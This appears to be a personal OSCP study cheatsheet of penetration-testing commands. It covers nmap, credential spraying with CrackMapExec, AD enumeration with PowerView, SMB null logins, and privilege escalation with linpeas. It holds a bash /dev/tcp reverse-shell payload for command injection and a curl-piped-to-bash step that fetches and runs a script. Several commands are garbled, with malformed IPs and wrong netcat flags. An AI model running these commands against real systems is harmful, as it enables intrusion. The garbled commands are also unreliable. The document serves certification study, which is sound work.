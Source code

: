 ## OSCP Cheatsheet

# General
# Red flags to check
config file
# PDF Files
Run in directory with the pdf files to get more info
```
exiftool *.pdf
```

# nmap

``` 
nmap -sC -sV -OA 10.10.123.43
```
# ssh
you can crack map exec if you have
```
cme ssh 1010.11.247 -u users..txt -p 'sdfasdfsa'
```

if you login to ssh you should check the home directory
```
find . -type f
```

then  
```
ls -la
```

when  you get an ssh, you can upload winpeas/linpeas for privesc
```
mkdir www
cd www
cp /opt/peas/linpeas.sh .
python3 -m http.server
```
back to ssh
```
curl 10.10.13.1423(your ip):8000/linpeas.sh | bash

```



# ftp

download multiple files
```
wget -r ftp://10.10.11.123
```

# PowerView
GetNetUser - enumerate user info
```
objectsid : *-500 = admin
```
filter out just for cn
```
GetNetUser | select cn
``` 

GetNetUser | select cn, objectsid, adspath

if you want to enumerate for specific user

```
GetNetUser -UserName Admin
```

Enumerate Groups
```
Get-NetGroup
```
list of groups that username is a part of
```
Get-NetGroup -Username Admin	
Get-NetGroupMember -groupname “adminsitrators”
```

part of AD env requires more than 1 computer or else it doesn't make sense to run AD
if you access a domain controller and you want to find out what computers you can compromise with administrator privilieges
```
Find-LocalAdminAccess
```

# SMB
```
netexec smb 10.10.14.31
netexec smb 10.10.14.31  -- shares
netexec smb 10.10.14.31  -- shares -u  ‘’ -p ‘’ #null login
netexec smb 10.10.14.31  -- shares -u  ‘DoesNotExist’ -p ‘’ #anonymous login. 
```
to specify no password
```
smbclient -N //10.10.13.31/ # -N 
```

in smb
to download everything in the directory
```
>RECURSE on
>prompt
>mget *
```

# SHELL
when you can get command injection
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
different window
```
nc lvnp -9001
```
back to shell
```
python3 -c ‘import pty;pty.spawn("bin/bash")’
background this (ctrl+z)
stty raw -echo; fg
export TERM=xterm
```

upload a shell from = /usr/share/webshells/...
edit the shell code
run netcat listening on the port

run this command to get a shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

OR 

if we get a shell but it is not stable,

use this payload 

bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"

# Linpeas
generally check new titles or stuff with a lot of red
you want to avoid the kernel exploits until the last step because generally they are unreliable
check the recon first



<p>
  someone's blog
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
  
</p>
